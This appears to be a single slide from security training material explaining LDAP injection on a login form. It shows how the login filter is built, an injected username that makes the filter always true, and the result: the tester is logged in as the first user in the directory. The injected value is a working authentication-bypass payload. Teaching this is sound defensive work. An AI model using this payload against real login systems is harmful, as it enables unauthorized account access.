

# Login
 injecting an always true LDAP query
(authentication) searchlogin= "(&(uid="+user+")(userPassword={MD5}"+base64(pack("H*",md5(pass)))+"))";
user=*)(uid=*))(|(uid=* pass=password
searchlogin="(&(uid=*)(uid=*))(|(uid=*)(userPassword={MD5}X03MO1qnZdYdgyfeuILPmQ==))";

Correct and always true

the tester will gain logged-in status as the first user in LDAP tree.